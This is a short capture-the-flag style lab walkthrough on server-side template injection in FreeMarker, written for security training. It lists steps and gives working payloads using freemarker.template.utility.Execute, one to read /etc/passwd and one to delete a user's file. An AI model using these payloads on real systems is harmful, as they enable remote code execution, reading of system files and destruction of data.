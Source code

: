 # Lab: Server-side template injection using documentation

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials:

`content-manager:C0nt3ntM4n4g3r`

{% hint style="info" %}
You should try solving this lab using only the documentation. However, if you get really stuck, you can try finding a well-known exploit by @albinowax that you can use to solve the lab.
{% endhint %}

## Steps

* Login to the website using the given credentials
* Click on View details of any product
* Click on Edit template button
* Remove the .name from any template syntax

```
${product.name}

to

${product}
```

* Click on Save and View the Product Details
* We can see that the website is using FreeMarker Template engine
* Now view the /cat/passwd file

```
${"freemarker.template.utility.Execute"?new()("cat /etc/passwd")}
```

* We can see that the webserver is vulnerable to SSTI
* Delete the morale.txt file

```
${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}
```

* Congrats! You have solved the lab.
